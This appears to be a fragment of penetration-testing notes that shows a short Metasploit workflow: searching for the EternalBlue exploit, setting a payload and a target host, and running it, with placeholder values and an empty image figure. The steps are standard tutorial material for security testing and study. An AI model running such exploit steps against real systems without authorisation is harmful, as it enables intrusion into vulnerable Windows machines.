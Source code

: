```
run
```

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

### MetaSploit Payload

```
#search eternalblue
#use 0
# specify the identifier
# set payload <PAYLOAD_NAME>
# set RHOSTS <TARGET_IP>

# run
OR 
# exploit

```
